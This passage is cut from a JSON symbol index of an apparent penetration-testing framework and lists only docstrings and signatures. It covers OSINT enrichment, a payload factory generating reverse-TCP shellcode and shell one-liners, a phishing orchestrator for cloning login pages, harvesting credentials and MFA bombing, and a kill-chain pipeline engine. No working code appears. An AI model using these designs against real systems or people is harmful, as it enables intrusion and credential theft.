name: Verb (must match an existing shell command when custom).\n    enabled: New enabled flag.\n    keywords: Intent/goal signals selecting the verb.\n    phases: Kill-chain phases the verb serves.\n    needs_target: Whether the built line carries the loop target.\n    extra_args: Fixed tail args appended after the target.\n    description: Operator-facing note.\n    custom: Mark as a new operator-defined verb.\n\nReturns:\n    The merged entry after persisting.\n\nRaises:\n    ValueError: Empty verb name.", "kind": "function", "line": 233, "name": "upsert_verb", "signature": "def upsert_verb(name)"}, {"doc": "Remove a custom verb, or disable a built-in one.\n\nReturns:\n    True when something changed.", "kind": "function", "line": 290, "name": "remove_verb", "signature": "def remove_verb(name)"}, {"doc": "Drop every orchestrator override (back to defaults).", "kind": "function", "line": 315, "name": "reset", "signature": "def reset()"}]}, {"doc": "Keyless OSINT enrichment for finding evidence.  VirusTotal has no keyless API, so this module assembles the same answers from sources that need no API key at all:  - CVE advisories: OSV (https://api.osv.dev, no key, POST). - Exploited in the wild: CISA KEV catalog (public JSON feed, no key). - Exploit probability: EPSS scores from FIRST (https://api.first.org, no key). - Host intel: HackerTarget free endpoints + DNS-over-HTTPS + ip-api community rate limit (all keyless), urlscan.io public search (no key).  Every lookup is cached under ``sessions/osint_cache.json`` (7-day TTL, KEV catalog 24h) and fails silent: enrichment must never break the loop. Stdlib only (urllib).", "id": "modules/osint_enrich.py", "kind": "module", "label": "osint_enrich.py", "language": "py", "sha256": "86b879b34c250fa5", "symbol_count": 13, "symbols": [{"doc": "Return the OSINT disk-cache path for a sessions directory.", "kind": "function", "line": 47, "name": "_cache_path", "signature": "def _cache_path(sessions_dir)"}, {"doc": "Load the cache, tolerating missing or corrupt files.", "kind": "function", "line": 52, "name": "_cache_load", "signature": "def _cache_load(sessions_dir)"}, {"doc": "Persist the cache best-effort.", "kind": "function", "line": 61, "name": "_cache_save", "signature": "def _cache_save(sessions_dir, data)"}, {"doc": "Return a fresh cached entry, else None.", "kind": "function", "line": 69, "name": "_cached", "signature": "def _cached(sessions_dir, key, ttl)"}, {"doc": "Store one cache entry.", "kind": "function", "line": 77, "name": "_store", "signature": "def _store(sessions_dir, key, data)"}, {"doc": "GET a JSON document, returning None on any failure.", "kind": "function", "line": 84, "name": "_get_json", "signature": "def _get_json(url, params)"}, {"doc": "POST a JSON document, returning the decoded response or None.", "kind": "function", "line": 96, "name": "_post_json", "signature": "def _post_json(url, payload)"}, {"doc": "GET a plain-text document, returning None on any failure.", "kind": "function", "line": 110, "name": "_get_text", "signature": "def _get_text(url, params)"}, {"doc": "Assemble OSV advisory + KEV flag + EPSS score for one CVE id.", "kind": "function", "line": 122, "name": "cve_lookup", "signature": "def cve_lookup(cve_id, sessions_dir)"}, {"doc": "Best-effort PTR hostname for an IP (HackerTarget, then DoH).", "kind": "function", "line": 161, "name": "reverse_dns", "signature": "def reverse_dns(ip, sessions_dir)"}, {"doc": "Country/org/ISP for an IP via the keyless ip-api endpoint.", "kind": "function", "line": 183, "name": "host_geo", "signature": "def host_geo(ip, sessions_dir)"}, {"doc": "Count public urlscan.io results for a domain (no key needed).", "kind": "function", "line": 198, "name": "domain_exposure", "signature": "def domain_exposure(domain, sessions_dir)"}, {"doc": "Append keyless OSINT verdicts to CVE mentions inside evidence items.", "kind": "function", "line": 213, "name": "enrich_evidence", "signature": "def enrich_evidence(items, sessions_dir)"}]}, {"doc": "Native payload generation framework — stagers, stages, singles, formats.  Provides a ``PayloadFactory`` that can generate payloads for multiple platforms and architectures without depending on ``msfvenom``. Supports a ``show payloads`` catalog and a ``generate`` command modelled on Metasploit's ``generate`` workflow.  Payloads are registered as ``PayloadTemplate`` instances with metadata (name, platform, arch, description, options) and a ``generate()`` method.  Dynamic shellcode patching is supported for reverse-TCP payloads: the ``ShellcodePayload`` class replaces known IP / port placeholders inside embedded templates at generation time, removing the need for msfvenom on the most common combos.", "id": "modules/payload_factory.py", "kind": "module", "label": "payload_factory.py", "language": "py", "sha256": "f1e84ca99e31b9e5", "symbol_count": 32, "symbols": [{"doc": "Generate a fresh, null-free Linux x86-64 reverse-TCP shellcode.\n\nUses the socket-connect-dup2-execve syscall sequence.  IP and port\nare XOR-encoded at generation time so the blob contains no ``\\x00``\nbytes regardless of the chosen listener address.\n\nArgs:\n    lhost: IPv4 address for the listener.\n    lport: TCP port for the listener (1--65535).\n\nReturns:\n    Raw null-free position-independent shellcode bytes (~110 bytes).", "kind": "function", "line": 118, "name": "_build_linux_x64_reverse_tcp", "signature": "def _build_linux_x64_reverse_tcp(lhost, lport)"}, {"doc": "Replace IP and port placeholders inside a Windows x64 reverse-TCP\nshellcode template.\n\nThe x64 template carries an 8-byte sequential placeholder\n``\\x01..\\x08`` inside a ``mov rdx, imm64`` that encodes the\n``sockaddr_in`` structure, and a 4-byte ``\\x42\\x42\\x42\\x42``\nmarker for the port check that follows.\n\nArgs:\n    raw: The raw shellcode bytes (from ``_parse_escaped_hex``).\n    lhost: IPv4 address to replace the placeholder with.\n    lport: TCP port.\n\nReturns:\n    Patched shellcode bytes.", "kind": "function", "line": 190, "name": "_patch_shellcode_x64", "signature": "def _patch_shellcode_x64(raw, lhost, lport)"}, {"doc": "Base class for a registered payload template.\n\nSubclasses must implement :meth:`generate` which returns raw bytes.", "kind": "class", "line": 216, "name": "PayloadTemplate", "signature": "class PayloadTemplate(ABC)"}, {"doc": "Generate a reverse shell one-liner for various interpreters.", "kind": "class", "line": 251, "name": "ReverseShellPayload", "signature": "class ReverseShellPayload(PayloadTemplate)"}, {"doc": "Generate a Windows reverse shell one-liner (PowerShell).", "kind": "class", "line": 290, "name": "WindowsReverseShellPayload", "signature": "class WindowsReverseShellPayload(PayloadTemplate)"}, {"doc": "Proxy to ``msfvenom`` for payloads we don't natively support.", "kind": "class", "line": 322, "name": "MsfvenomPayload", "signature": "class MsfvenomPayload(PayloadTemplate)"}, {"doc": "Generate raw shellcode bytes from an embedded template.\n\nWhen ``lhost`` and ``lport`` are both provided, the shellcode is\ndynamically patched: known IP / port placeholder byte sequences inside\nthe template are replaced with the caller's values so the resulting\nblob connects back to the correct listener.", "kind": "class", "line": 363, "name": "ShellcodePayload", "signature": "class ShellcodePayload(PayloadTemplate)"}, {"doc": "Generate shellcode entirely at runtime — no static template needed.\n\nThe ``builder`` callable receives ``(lhost, lport)`` and must return\nthe complete position-independent shellcode as ``bytes``.", "kind": "class", "line": 409, "name": "DynamicShellcodePayload", "signature": "class DynamicShellcodePayload(PayloadTemplate)"}, {"kind": "function", "line": 442, "name": "_parse_escaped_hex", "signature": "def _parse_escaped_hex(escaped)"}, {"doc": "Registry and generator for payload templates.\n\nProvides a catalogue of built-in payloads and falls through to\n``msfvenom`` for Metasploit payloads when available.", "kind": "class", "line": 457, "name": "PayloadFactory", "signature": "class PayloadFactory"}, {"doc": "Format a list of payload dicts as an aligned table.\n\nArgs:\n    payloads: List of payload metadata dicts from\n        :meth:`PayloadFactory.list`.\n\nReturns:\n    Multi-line string with aligned columns.", "kind": "function", "line": 672, "name": "format_payload_table", "signature": "def format_payload_table(payloads)"}, {"kind": "method", "line": 222, "name": "__init__", "signature": "def __init__(self, name, platform, arch, description, options)"}, {"doc": "Generate the raw payload bytes.", "kind": "method", "line": 237, "name": "generate", "signature": "def generate(self)"}, {"kind": "method", "line": 241, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 254, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 272, "name": "generate", "signature": "def generate(self)"}, {"kind": "method", "line": 293, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 305, "name": "generate", "signature": "def generate(self)"}, {"kind": "method", "line": 325, "name": "__init__", "signature": "def __init__(self, name, platform, arch)"}, {"kind": "method", "line": 337, "name": "generate", "signature": "def generate(self)"}, {"kind": "method", "line": 374, "name": "__init__", "signature": "def __init__(self, name, platform, arch, description, escaped_hex, patcher)"}, {"doc": "Return the shellcode, optionally patching LHOST / LPORT.", "kind": "method", "line": 397, "name": "generate", "signature": "def generate(self)"}, {"kind": "method", "line": 416, "name": "__init__", "signature": "def __init__(self, name, platform, arch, description, builder)"}, {"kind": "method", "line": 436, "name": "generate", "signature": "def generate(self)"}, {"kind": "method", "line": 464, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 468, "name": "_register_builtins", "signature": "def _register_builtins(self)"}, {"doc": "Register a custom payload template.", "kind": "method", "line": 512, "name": "register", "signature": "def register(self, template)"}, {"doc": "List all registered payloads, optionally filtered by platform.", "kind": "method", "line": 516, "name": "list", "signature": "def list(self, platform)"}, {"doc": "Get a payload template by name.", "kind": "method", "line": 525, "name": "get", "signature": "def get(self, name)"}, {"doc": "Generate a payload by name.\n\nIf the payload is not registered natively, attempts\n``msfvenom``.\n\nArgs:\n    name: Payload name (e.g. ``cmd/unix/reverse_shell``).\n    format: Output format (``raw``, ``py``, ``ps1``, ``c``,\n        ``hex``, ``base64``, ``exe``, ``elf``, etc.).\n    output: Optional file path to write the payload.\n    **kwargs: Payload-specific options (lhost, lport, etc.).\n\nReturns:\n    Raw payload bytes.", "kind": "method", "line": 529, "name": "generate", "signature": "def generate(self, name, format, output)"}, {"doc": "Convert raw bytes to the requested output format.", "kind": "method", "line": 575, "name": "_apply_format", "signature": "def _apply_format(data, fmt)"}, {"doc": "List all available output formats.", "kind": "method", "line": 664, "name": "list_formats", "signature": "def list_formats()"}]}, {"doc": "Smart Phishing Campaign Orchestrator.  Provides a ``PhishingOrchestrator`` that automates the full phishing lifecycle: target profiling, email template generation, landing page cloning, credential harvesting, and campaign analytics. Integrates with the C2 infrastructure for callback tracking.  Architecture: TargetProfiler -> TemplateGenerator -> CampaignLauncher -> CredentialHarvester -> Analyst  Supported modes: credential_harvest  — Clone login pages and collect credentials. payload_delivery    — Send weaponized attachments. callback_beacon     — Embed C2 callback URLs for initial access. mfa_bombing        — Push notification fatigue attacks.  Security: All harvested credentials are written to ``sessions/phishing_creds.json``. Campaign data is isolated per engagement. No target email addresses are stored in repository files.  Usage: from modules.phishing_orchestrator import PhishingOrchestrator phish = PhishingOrchestrator() campaign_id = phish.launch( target_domain=\"target.com\", template=\"microsoft_365_login\", mode=\"credential_harvest\", )", "id": "modules/phishing_orchestrator.py", "kind": "module", "label": "phishing_orchestrator.py", "language": "py", "sha256": "58f0e9e1a362e37c", "symbol_count": 23, "symbols": [{"doc": "Derive an AES key from the machine-local secret for credential encryption.\n\nReturns:\n    32-byte key for AES-256-GCM encryption.\n\nRaises:\n    RuntimeError: If no encryption key is configured.", "kind": "function", "line": 57, "name": "_derive_credential_key", "signature": "def _derive_credential_key()"}, {"doc": "Encrypt a credential string using AES-256-GCM.\n\nArgs:\n    plaintext: The plaintext credential.\n\nReturns:\n    Base64-encoded encrypted payload (nonce || ciphertext || tag).", "kind": "function", "line": 84, "name": "_encrypt_credential", "signature": "def _encrypt_credential(plaintext)"}, {"doc": "Decrypt a credential string encrypted by ``_encrypt_credential``.\n\nArgs:\n    encrypted_b64: Base64-encoded encrypted payload.\n\nReturns:\n    Decrypted plaintext string.", "kind": "function", "line": 100, "name": "_decrypt_credential", "signature": "def _decrypt_credential(encrypted_b64)"}, {"doc": "Return a keyed HMAC-SHA-256 fingerprint truncated for audit logs.\n\nUses the derived credential key as the HMAC secret so the digest is\nstable per engagement but cannot be brute-forced without the key.\n\nArgs:\n    plaintext: The plaintext credential.\n\nReturns:\n    Truncated hex digest for logging without exposing the credential.\n\nRaises:\n    RuntimeError: If no encryption key is configured.", "kind": "function", "line": 116, "name": "_hash_credential_for_log", "signature": "def _hash_credential_for_log(plaintext)"}, {"doc": "A single phishing target profile.", "kind": "class", "line": 139, "name": "CampaignTarget", "signature": "class CampaignTarget"}, {"doc": "An email/page template for phishing.", "kind": "class", "line": 154, "name": "PhishingTemplate", "signature": "class PhishingTemplate"}, {"doc": "Outcome of a phishing campaign.", "kind": "class", "line": 167, "name": "CampaignResult", "signature": "class CampaignResult"}, {"doc": "Orchestrate end-to-end phishing campaigns.\n\nPublic methods:\n    launch(target_domain, template, mode) -> str (campaign_id)\n    profile_targets(domain) -> list[CampaignTarget]\n    generate_template(name, target_domain, context) -> PhishingTemplate\n    clone_landing_page(url) -> str (local path)\n    get_results(campaign_id) -> CampaignResult", "kind": "class", "line": 180, "name": "PhishingOrchestrator", "signature": "class PhishingOrchestrator"}, {"kind": "method", "line": 316, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 321, "name": "get_instance", "signature": "def get_instance(cls)"}, {"doc": "Launch a phishing campaign.\n\nArgs:\n    target_domain: Target organization domain.\n    template: Template name or custom template dict.\n    mode: credential_harvest, payload_delivery, callback_beacon.\n    targets_file: Path to targets CSV (email,first_name,last_name...).\n    sender_email: Email to send from.\n    sender_password: SMTP password or app password.\n    smtp_host: SMTP server hostname.\n    smtp_port: SMTP server port.\n\nReturns:\n    Campaign ID string.", "kind": "method", "line": 332, "name": "launch", "signature": "def launch(self, target_domain, template, mode, targets_file, sender_email, sender_password, smtp_host, smtp_port)"}, {"doc": "Profile targets for a domain using OSINT techniques.\n\nArgs:\n    domain: Target organization domain.\n\nReturns:\n    List of CampaignTarget profiles.", "kind": "method", "line": 441, "name": "profile_targets", "signature": "def profile_targets(self, domain)"}, {"doc": "Generate or retrieve a phishing template.\n\nArgs:\n    name: Template name or path to custom template JSON.\n    target_domain: Target domain for variable substitution.\n    context: Additional template variables.\n\nReturns:\n    PhishingTemplate instance.", "kind": "method", "line": 486, "name": "generate_template", "signature": "def generate_template(self, name, target_domain, context)"}, {"doc": "Clone a target login page for credential harvesting.\n\nArgs:\n    url: URL of the page to clone.\n\nReturns:\n    Path to the cloned HTML file.", "kind": "method", "line": 533, "name": "clone_landing_page", "signature": "def clone_landing_page(self, url)"}, {"doc": "Get campaign results.\n\nArgs:\n    campaign_id: Campaign identifier.\n\nReturns:\n    CampaignResult with statistics.", "kind": "method", "line": 560, "name": "get_results", "signature": "def get_results(self, campaign_id)"}, {"doc": "Record a link click.\n\nArgs:\n    campaign_id: Campaign identifier.\n    email: Email that clicked.", "kind": "method", "line": 584, "name": "record_click", "signature": "def record_click(self, campaign_id, email)"}, {"doc": "Record harvested credentials.\n\nArgs:\n    campaign_id: Campaign identifier.\n    email: Harvested email/username.\n    password: Harvested password.", "kind": "method", "line": 605, "name": "record_credentials", "signature": "def record_credentials(self, campaign_id, email, password)"}, {"doc": "Load targets from a CSV file.\n\nArgs:\n    filepath: Path to targets CSV.\n\nReturns:\n    List of CampaignTarget objects.", "kind": "method", "line": 644, "name": "_load_targets_from_file", "signature": "def _load_targets_from_file(self, filepath)"}, {"doc": "Generate a credential harvesting landing page.\n\nArgs:\n    template: PhishingTemplate.\n    target_domain: Target domain.\n    campaign_id: Campaign identifier.\n\nReturns:\n    HTML string.", "kind": "method", "line": 683, "name": "_generate_landing_page", "signature": "def _generate_landing_page(self, template, target_domain, campaign_id)"}, {"doc": "Configure credential harvesting endpoint.\n\nArgs:\n    campaign_id: Campaign identifier.\n\nReturns:\n    Harvesting endpoint URL.", "kind": "method", "line": 723, "name": "_setup_harvesting_endpoint", "signature": "def _setup_harvesting_endpoint(self, campaign_id)"}, {"doc": "Send a phishing email via SMTP.\n\nArgs:\n    to_email: Recipient email.\n    subject: Email subject.\n    html_body: HTML body content.\n    smtp_config: SMTP configuration dict.\n\nReturns:\n    True if sent successfully.", "kind": "method", "line": 735, "name": "_send_email", "signature": "def _send_email(self, to_email, subject, html_body, smtp_config)"}, {"doc": "Inject credential harvesting JavaScript into cloned page.\n\nArgs:\n    html: Cloned page HTML.\n    page_id: Harvesting page identifier.\n\nReturns:\n    Modified HTML with harvester injected.", "kind": "method", "line": 769, "name": "_inject_harvester", "signature": "def _inject_harvester(self, html, page_id)"}, {"doc": "Load payload config.\n\nReturns:\n    Configuration dict.", "kind": "method", "line": 808, "name": "_load_config", "signature": "def _load_config(self)"}]}, {"doc": "modules/pipeline_engine.py — Declarative YAML pipelines for LazyOwn ====================================================================  Pillar 3: composition without code. Operators describe a kill-chain (or any other ordered sequence of LazyOwn commands) as a YAML document under ``pipelines/`` and run it with ``pipeline run <name>``. Pipelines may call other pipelines so larger playbooks compose from smaller building blocks.  The engine is intentionally minimal: it never calls ``eval`` or executes template code. Variable interpolation is restricted to a safe dotted-path resolver over a typed StepContext, and conditional execution is a strict truthy check on the resolved value. Each step runs through the existing LazyOwn command runner (the same one the autonomous daemon uses) so the 333+ commands remain the canonical implementation.  Layered architecture (SOLID):  - PipelineLoader     : parses YAML + validates schema. No execution. - TemplateResolver   : safe ``{{ scope.path.to.value }}`` substitution. - ConditionEvaluator : truthy check on a resolved template. - StepValidator      : ``validate:`` predicate (substring or ``re:`` regex). - StepDerivers       : per-command output parsers (has_exploit, findings, services, ttl, ports, ...). Pluggable registry so new commands extend the engine without changes. - IStepRunner        : execution contract for one step. - LazyOwnStepRunner  : default runner wrapping the daemon command runner. - RunArtifactStore   : persists every run under sessions/pipelines/. - INarrator          : optional narrator (default: engagement_hooks). - PipelineEngine     : orchestrates the plan. Detects nested-pipeline", "id": "modules/pipeline_engine.py", "kind": "module", "label": "pipeline_engine.py", "language": "py", "sha256": "edcd87b421084216", "symbol_count": 80, "symbols": [{"doc": "Base error class for pipeline engine failures.", "kind": "class", "line": 89, "name": "PipelineError", "signature": "class PipelineError(Exception)"}, {"doc": "YAML structure does not match the documented schema.", "kind": "class", "line": 93, "name": "PipelineSchemaError", "signature": "class PipelineSchemaError(PipelineError)"}, {"doc": "Requested pipeline name does not resolve to a YAML file.", "kind": "class", "line": 97, "name": "PipelineNotFoundError", "signature": "class PipelineNotFoundError(PipelineError)"}, {"doc": "Nested pipeline call would form an execution cycle.", "kind": "class", "line": 101, "name": "PipelineCycleError", "signature": "class PipelineCycleError(PipelineError)"}, {"doc": "One declared step inside a pipeline spec.\n\nAttributes:\n    index: Position in the plan (0-based).\n    name: Step identifier used for the steps.<name> scope. Defaults\n          to the command/pipeline name when not specified.\n    command: LazyOwn shell command to execute. Mutually exclusive\n             with pipeline.\n    pipeline: Nested pipeline to invoke. Mutually exclusive with\n              command.\n    args: Optional argument string appended after the command.\n    input_from: Template resolved to the args (overrides args when\n                truthy after resolution).\n    validate: Optional ``validate:`` predicate.\n    condition: Optional ``condition:`` template. Falsy ->\n               step is skipped.\n    on_success: Optional follow-up command executed only when this\n                step succeeded. The hook is itself a LazyOwn command\n                name with no args.\n    on_failure: One of stop|continue|skip. Defaults to stop.\n    timeout_s: Per-step timeout.\n    with_inputs: Free-form dict of step-level template values\n                 accessible via ``inputs.X`` inside the same step.", "kind": "class", "line": 111, "name": "PipelineStep", "signature": "class PipelineStep"}, {"doc": "A loaded, schema-validated pipeline document.", "kind": "class", "line": 152, "name": "PipelineSpec", "signature": "class PipelineSpec"}, {"doc": "Outcome of executing a single PipelineStep.", "kind": "class", "line": 163, "name": "StepResult", "signature": "class StepResult"}, {"doc": "Aggregate result returned by PipelineEngine.run.", "kind": "class", "line": 199, "name": "PipelineRun", "signature": "class PipelineRun"}, {"kind": "function", "line": 234, "name": "_now_iso", "signature": "def _now_iso()"}, {"kind": "function", "line": 238, "name": "_new_run_id", "signature": "def _new_run_id()"}, {"kind": "function", "line": 242, "name": "_is_valid_pipeline_name", "signature": "def _is_valid_pipeline_name(name)"}, {"kind": "function", "line": 248, "name": "_load_payload", "signature": "def _load_payload()"}, {"doc": "Resolves ``{{ scope.path.to.value }}`` against a context dict.\n\nSupported lookups:\n  ``previous.<field>`` — most recent non-skipped step result.\n  ``steps.<name>.<field>`` — explicit named step lookup.\n  ``payload.<key>`` — value from payload.json (read at call time).\n  ``inputs.<key>`` — step-level ``with_inputs`` values.\n  ``findings.<key>`` — aggregated derived values across the run.\n\nUnknown paths resolve to empty string; the engine never raises on a\nbad template. Lists are stringified with ``\" \".join`` so they slot\ncleanly into command-line argument strings.", "kind": "class", "line": 260, "name": "TemplateResolver", "signature": "class TemplateResolver"}, {"doc": "Truthy check on a resolved template expression.", "kind": "class", "line": 326, "name": "ConditionEvaluator", "signature": "class ConditionEvaluator"}, {"doc": "Implements the ``validate:`` predicate for one step.\n\nForms:\n  ``ttl=64``       → output must contain the substring \"ttl=64\".\n  ``re:^ttl=\\d+`` → output must match the trailing Python regex.\n  ``empty``        → output trimmed must be empty.\n  ``non_empty``    → output trimmed must be non-empty.", "kind": "class", "line": 341, "name": "StepValidator", "signature": "class StepValidator"}, {"doc": "Per-command output parsers producing structured derived fields.\n\nEach deriver returns a dict of additional keys merged into\n``StepResult.derived``. The set of derivers is intentionally small\nand uses defensive parsing — a deriver never raises and always\nreturns a dict.\n\nExtension: register a new deriver via ``StepDerivers.register``.", "kind": "class", "line": 375, "name": "StepDerivers", "signature": "class StepDerivers"}, {"doc": "Extract ttl, alive flag from ping output.", "kind": "function", "line": 412, "name": "_derive_ping", "signature": "def _derive_ping(output)"}, {"doc": "Extract open ports and service names from nmap output.", "kind": "function", "line": 427, "name": "_derive_lazynmap", "signature": "def _derive_lazynmap(output)"}, {"doc": "Detect whether searchsploit returned an exploit candidate.\n\nLooks for explicit exploit identifiers (CVE-YYYY-N or an\n``exploit/<category>`` path) rather than any occurrence of the\nword \"exploit\", so phrasing like \"No exploits found\" correctly\nresolves to ``has_exploit=False``.", "kind": "function", "line": 453, "name": "_derive_searchsploit", "signature": "def _derive_searchsploit(output)"}, {"doc": "Auto-populate signals: domain discovered, services injected.", "kind": "function", "line": 472, "name": "_derive_auto_populate", "signature": "def _derive_auto_populate(output)"}, {"doc": "facts_show emits 'found' lines per fact.", "kind": "function", "line": 481, "name": "_derive_facts_show", "signature": "def _derive_facts_show(output)"}, {"doc": "Execution contract for one resolved step.", "kind": "class", "line": 509, "name": "IStepRunner", "signature": "class IStepRunner(ABC)"}, {"doc": "Default runner reusing the autonomous-daemon command runner factory.\n\nEach invocation prefixes the command with an ``assign rhost <target>``\nline so steps that read payload.json[rhost] always see the pipeline's\ntarget value, mirroring the autonomous daemon and EngageOrchestrator\ncontract.\n\nWhen *onecmd* is provided (a ``LazyOwnShell.onecmd`` bound method),\ncommands execute directly inside the calling shell instead of spawning\na new PTY subprocess.  This is significantly faster in headless/CI\ncontexts and avoids the startup overhead of the daemon runner.", "kind": "class", "line": 523, "name": "LazyOwnStepRunner", "signature": "class LazyOwnStepRunner(IStepRunner)"}, {"kind": "function", "line": 587, "name": "_heuristic_success", "signature": "def _heuristic_success(command, output)"}, {"doc": "Loads pipeline YAML files into :class:`PipelineSpec` objects.\n\nSOLID:\n  - SRP: parses and validates; never executes.\n  - LSP: any custom YAML-source backend can subclass and override\n    ``_read``.\n  - Security: yaml.safe_load only; pipeline name validated.", "kind": "class", "line": 626, "name": "PipelineLoader", "signature": "class PipelineLoader"}, {"doc": "Persists pipeline runs under sessions/pipelines/<pipeline>__<runid>/.\n\nWrites:\n  - plan.yaml      : the frozen spec used by the run\n  - step_<n>.json  : one record per executed step\n  - summary.json   : aggregate PipelineRun", "kind": "class", "line": 769, "name": "RunArtifactStore", "signature": "class RunArtifactStore"}, {"doc": "Optional narration interface used by the engine.", "kind": "class", "line": 848, "name": "INarratorAdapter", "signature": "class INarratorAdapter(ABC)"}, {"kind": "class", "line": 863, "name": "_SilentNarrator", "signature": "class _SilentNarrator(INarratorAdapter)"}, {"doc": "Bridges to modules.engagement_hooks.EngagementNarrator when present.", "kind": "class", "line": 868, "name": "EngagementNarratorAdapter", "signature": "class EngagementNarratorAdapter(INarratorAdapter)"}, {"doc": "Executes a PipelineSpec against the LazyOwn runtime.\n\nConstruction:\n\n    engine = PipelineEngine()              # production defaults\n    engine = PipelineEngine(runner=mock,   # test injection\n                            narrator=...,\n                            artifact_store=...,\n                            loader=...)\n\nExecution:\n\n    run = engine.run(\"linux-initial-access\", target=\"10.10.11.5\")\n\nNested pipelines reuse the same engine instance, threading the\nnesting stack through ``run`` to detect cycles.", "kind": "class", "line": 908, "name": "PipelineEngine", "signature": "class PipelineEngine"}, {"doc": "Process-wide default engine for production callers.\n\nWhen *onecmd* is given, the engine's step runner will execute commands\ndirectly through the caller's shell instead of spawning a new PTY.", "kind": "function", "line": 1300, "name": "get_default_engine", "signature": "def get_default_engine(onecmd)"}, {"doc": "Public MCP / CLI entry: run a pipeline.\n\nWhen *onecmd* is provided (a ``LazyOwnShell.onecmd`` bound method),\ncommands execute directly inside the caller's shell instead of spawning\na new PTY subprocess.  This is the recommended path when running from\ninside an interactive shell or headless runner.\n\nReturns a JSON string with either the full PipelineRun dict (when\n``background=False``) or an immediate ``{status: started, run_id}``\nresponse (when ``background=True``).", "kind": "function", "line": 1314, "name": "mcp_pipeline_run", "signature": "def mcp_pipeline_run(name, target, background, onecmd)"}, {"doc": "Return the list of available pipelines under pipelines/.", "kind": "function", "line": 1368, "name": "mcp_pipeline_list", "signature": "def mcp_pipeline_list()"}, {"doc": "Validate a pipeline's YAML schema without executing it.", "kind": "function", "line": 1385, "name": "mcp_pipeline_validate", "signature": "def mcp_pipeline_validate(name)"}, {"doc": "Return the N most recent pipeline runs and their summaries.", "kind": "function", "line": 1414, "name": "mcp_pipeline_status", "signature": "def mcp_pipeline_status(last_n)"}, {"doc": "CLI helper bound to the ``pipeline`` daemon subcommand.", "kind": "function", "line": 1436, "name": "cmd_pipeline", "signature": "def cmd_pipeline(action, name, target, background)"}, {"doc": "Render the step result as a dict for template lookups.", "kind": "method", "line": 180, "name": "to_context", "signature": "def to_context(self)"}, {"doc": "Return a JSON-friendly representation of the full run.", "kind": "method", "line": 213, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 275, "name": "__init__", "signature": "def __init__(self, context)"}, {"kind": "method", "line": 278, "name": "render", "signature": "def render(self, template)"}, {"doc": "Return the value at dotted_path or None when not found.", "kind": "method", "line": 289, "name": "resolve", "signature": "def resolve(self, dotted_path)"}, {"kind": "method", "line": 314, "name": "_stringify", "signature": "def _stringify(value)"}, {"kind": "method", "line": 330, "name": "is_truthy", "signature": "def is_truthy(rendered)"}, {"kind": "method", "line": 352, "name": "validate", "signature": "def validate(predicate, output)"}, {"doc": "Bind a deriver to a top-level command name (case-insensitive).", "kind": "method", "line": 389, "name": "register", "signature": "def register(cls, command, deriver)"}, {"doc": "Run the registered deriver for command on output, defensive.", "kind": "method", "line": 396, "name": "derive", "signature": "def derive(cls, command, output)"}, {"doc": "Execute one command. Return (output, success, error_text).", "kind": "method", "line": 513, "name": "run", "signature": "def run(self, command, args, target, timeout_s)"}, {"kind": "method", "line": 537, "name": "__init__", "signature": "def __init__(self, runner, onecmd)"}, {"kind": "method", "line": 548, "name": "run", "signature": "def run(self, command, args, target, timeout_s)"}, {"kind": "method", "line": 566, "name": "_run_via_onecmd", "signature": "def _run_via_onecmd(self, command, args, target, timeout_s)"}, {"kind": "method", "line": 638, "name": "__init__", "signature": "def __init__(self, pipelines_dir)"}, {"kind": "method", "line": 642, "name": "pipelines_dir", "signature": "def pipelines_dir(self)"}, {"doc": "Return every pipeline name discoverable in pipelines_dir.", "kind": "method", "line": 645, "name": "list", "signature": "def list(self)"}, {"doc": "Return the absolute path to the YAML file for the given name.", "kind": "method", "line": 658, "name": "resolve_path", "signature": "def resolve_path(self, name)"}, {"kind": "method", "line": 673, "name": "_read", "signature": "def _read(self, path)"}, {"doc": "Parse the YAML file for name and return a validated spec.", "kind": "method", "line": 683, "name": "load", "signature": "def load(self, name)"}, {"kind": "method", "line": 689, "name": "_validate", "signature": "def _validate(self, raw, name, source)"}, {"kind": "method", "line": 778, "name": "__init__", "signature": "def __init__(self, runs_dir)"}, {"kind": "method", "line": 782, "name": "runs_dir", "signature": "def runs_dir(self)"}, {"doc": "Create and return the directory for this run.", "kind": "method", "line": 785, "name": "open_run", "signature": "def open_run(self, pipeline_name, run_id)"}, {"kind": "method", "line": 797, "name": "write_plan", "signature": "def write_plan(self, run_dir, spec)"}, {"kind": "method", "line": 814, "name": "write_step", "signature": "def write_step(self, run_dir, result)"}, {"kind": "method", "line": 828, "name": "write_summary", "signature": "def write_summary(self, run_dir, run)"}, {"doc": "Emit one narration event.", "kind": "method", "line": 852, "name": "narrate", "signature": "def narrate(self, kind, target, message, payload, severity)"}, {"kind": "method", "line": 864, "name": "narrate", "signature": "def narrate(self)"}, {"kind": "method", "line": 871, "name": "__init__", "signature": "def __init__(self, narrator)"}, {"kind": "method", "line": 881, "name": "narrate", "signature": "def narrate(self, kind, target, message, payload, severity)"}, {"kind": "method", "line": 927, "name": "__init__", "signature": "def __init__(self, runner, loader, artifact_store, narrator, max_nesting)"}, {"kind": "method", "line": 942, "name": "loader", "signature": "def loader(self)"}, {"doc": "Load and validate without executing. Raises on schema errors.", "kind": "method", "line": 945, "name": "validate", "signature": "def validate(self, name)"}, {"doc": "Execute the pipeline. Returns a fully-populated PipelineRun.", "kind": "method", "line": 949, "name": "run", "signature": "def run(self, name, target, nesting_stack)"}, {"kind": "method", "line": 1077, "name": "_run_command", "signature": "def _run_command(self, step, resolver, target)"}, {"kind": "method", "line": 1126, "name": "_run_nested", "signature": "def _run_nested(self, step, resolver, target, stack, run)"}, {"kind": "method", "line": 1178, "name": "_run_hook", "signature": "def _run_hook(self, hook_command, target, timeout_s)"}, {"kind": "method", "line": 1206, "name": "_make_skipped", "signature": "def _make_skipped(step, reason)"}, {"kind": "method", "line": 1221, "name": "_build_context", "signature": "def _build_context(self, spec, target, step_results, derived_findings, current_step)"}, {"kind": "method", "line": 1246, "name": "_merge_findings", "signature": "def _merge_findings(derived_findings, result)"}, {"kind": "method", "line": 1256, "name": "_narrate_step", "signature": "def _narrate_step(self, result, target)"}, {"kind": "function", "line": 1344, "name": "_worker", "signature": "def _worker()"}, {"kind": "function", "line": 282, "name": "_replace", "signature": "def _replace(match)"}]}, {"doc": "Fact-based 